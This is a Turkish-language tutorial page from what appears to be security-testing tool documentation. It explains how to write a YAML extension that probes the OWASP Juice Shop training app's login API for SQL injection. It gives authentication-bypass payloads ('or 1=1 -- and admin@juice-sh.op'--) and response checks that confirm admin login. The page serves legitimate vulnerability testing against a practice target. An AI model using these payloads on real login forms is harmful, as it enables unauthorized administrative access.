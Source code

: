 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   Eklenti Değiştirmenin Oluşturulması

Bu belgede tanımlanan eklenti, bir SQLi açığı olan gelen ana isteği enjekte etmek için bazı yükleri değiştirecektir. Bu yükler, [“OWASP Juice Shop”][link-juice-shop] hedef uygulamanın giriş formundaki açığı sömürebilir.
  
##  Hazırlıklar

FAST eklentisi oluşturmadan önce bu adımların atılması şiddetle tavsiye edilir:
1.  Eklentiyi oluşturduğunuz hedef uygulamanın davranışlarını [inceleyin][link-app-examination].
2.  Eklenti için nokta oluşturmanın ilkelelerini [okuyun][link-points].


##  Eklentinin Oluşturulması

Eklentiyi tanımlayan bir dosya oluşturun (`mod-extension.yaml` örneğin) ve gerekli bölümlerle doldurun:

1.  [**`meta-info` bölümü**][link-meta-info].

    Eklentinin algılamaya çalışacağı açığın açıklamasını hazırlayın.
    * açıklık başlığı: `OWASP Juice Shop SQLi (mod eklentisi)`
    * açıklık tanımı: `OWASP Juice Shop'ta SQLi denemesi (Admin Giriş)`
    * açıklık türü: SQL enjeksiyon
    * açıklık tehdit seviyesi: yüksek
    
    İlgili `meta-info` bölümü aşağıdaki gibi görünmelidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`collect` bölümü, [Collect aşaması][doc-collect-phase]**.
    
    Oturum açmaya çalışırken `POST /rest/user/login` REST API metodu çağrılır.
    
    Giriş için API'ye gönderilen ana isteklerin her biri için test isteklerini oluşturmanıza gerek yoktur çünkü her veri parçası için açıklıkları test etme aynı şekilde gerçekleştirilecektir.
    
    Eklentiyi, API giriş isteğini aldığında sadece bir kez yürütecek şekilde kurun. Bunu yapmak için eklentiye benzersizlik durumu olan Collect aşamasını ekleyin.

    API'ye `/rest/user/login` giriş isteği şunları içerir:

    1.  yoluun ilk kısmın `rest` değeri,
    2.  yolun ikinci kısmının `user` değeri, ve
    3.  `login` eylem metodu
    
    Bu değerlere atıfta bulunan ilgili noktalar aşağıdaki gibidir:

    1.  yoluun ilk kısmı için `PATH_0_value`
    2.  yolun ikinci kısmı için `PATH_1_value`
    3.  `login` eylem metodu için `ACTION_NAME_value`
    
    Bu üç elementin kombinasyonunun benzersiz olma koşulunu eklerseniz, eklenti sadece API'ye ilk `/rest/user/login` ana istek için çalışacaktır (bu istek benzersiz olarak kabul edilecek ve giriş için API'ye gönderilen tüm diğer istekler benzersiz olmayacaktır). 
    
    Eklenti YAML dosyasına ilgili `collect` bölümünü ekleyin. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **`match` bölümü, [Match aşaması][doc-match-phase]**.
    
    Gelen ana isteğin gerçekten de giriş için olan API isteği olup olmadığını kontrol etmek gereklidir çünkü oluşturduğumuz eklenti, giriş formunda bulunan açıklıkları sömürebilecektir.
    
    Eklentiyi, yalnızca bir ana başvurunun aşağıdaki URI'ye hedeflendiğinde çalışacak şekilde ayarlayın: `/rest/user/login`. Gelen isteğin gerekli elemanları içerip içermediğini kontrol eden Match aşamasını ekleyin. Bu, aşağıdaki `match` bölümü kullanılarak yapılabilir:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **`modify` bölümü, [Modify aşaması][doc-modify-phase]**.
    
    Varsayalım ki, ana isteği aşağıdaki hedeflere ulaşmak için değiştirmek gerekiyor:
    * `Accept-Language` HTTP başlık değerini temizlemek (bu değer açığın tespit edilmesi için gerekli olmayacak)
    * `email` ve `password` parametrelerinin gerçek değerlerini nötr `dummy` değerleriyle değiştirmek
    
    Yukarıda bahsedilen hedeflere ulaşan isteği değiştirecek aşağıdaki `modify` bölümünü eklentinin içine ekleyin:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "İstek elementleri tanım sözdizi"
        JSON formatındaki istek verisi `<key: value>` çiftlerinde saklandığı için, `email` eleman değerine atıfta bulunan nokta yukarıda gösterildiği gibi görünür. `password` eleman değerine atıfta bulunan noktanın benzer bir yapısı var.
        
        Noktaları oluştururken detaylı bilgi almak için [bu bağlantıya][link-points] gidin.
 
5.  **`generate` bölümü, [Generate aşaması][doc-generate-phase]**.

    Hedef uygulamadaki SQL injection açığını sömürmek için ana istekteki `email` parametresinin değerini değiştirmesi gereken iki yük olduğu bilinmektedir:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Yükün değiştirilmiş isteğe eklenmesi"
        Eklenti `modify` bölümünü içerdiği için yük, önceden değiştirilmiş isteğe eklenecektir. Bu nedenle, ilk yükü `email` alanına ekledikten sonra, test isteği verileri aşağıdaki gibi görünmelidir:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Seçilen yükler nedeniyle herhangi bir şifre ile başarılı bir şekilde giriş yapılabileceği için, şifre alanına yük eklemeye gerek yoktur, bu alan Modify aşaması uygulandıktan sonra `dummy` değerine sahip olacaktır.
    
        Yukarıda tartışılan gereksinimleri karşılayan test isteklerini oluşturacak `generate` bölümünü ekleyin.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **`detect` bölümü, [Detect aşaması][doc-detect-phase]**.
    
    Kullanıcının yönetici haklarıyla başarılı bir şekilde kimlik doğrulaması gerçekleştirdiğini belirten koşullar aşağıdaki gibidir:
    * Cevap vücudunda alışveriş sepeti tanımlayıcısı parametresinin `1` değerinin varlığı. Bu parametre JSON formatında olmalı ve aşağıdaki gibi görünmelidir:
    
        ```
        "bid":1
        ```
    
    * Cevap vücudunda kullanıcı e-postası parametresinin `admin@juice-sh.op` değerinin bulunması. Bu parametre JSON formatında olmalı ve aşağıdaki gibi görünmelidir:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Saldırının başarılı olduǧunu kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Belirli sembolleri kaçınma"
    Dizelerdeki özel sembolleri kaçınmayı unutmayın.

##  Eklenti Dosyası

Şu anda `mod-extension.yaml` dosyası eklentinin çalışması için gerekli olan bölümlerin tamamını içeriyor. Dosyanın içeriğinin listesi aşağıdadır:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Eklentinin Kullanımı

Oluşturulan ifadeyi nasıl kullanacağınıza dair detaylı bilgi için [bu belgeyi][link-using-extension] okuyun.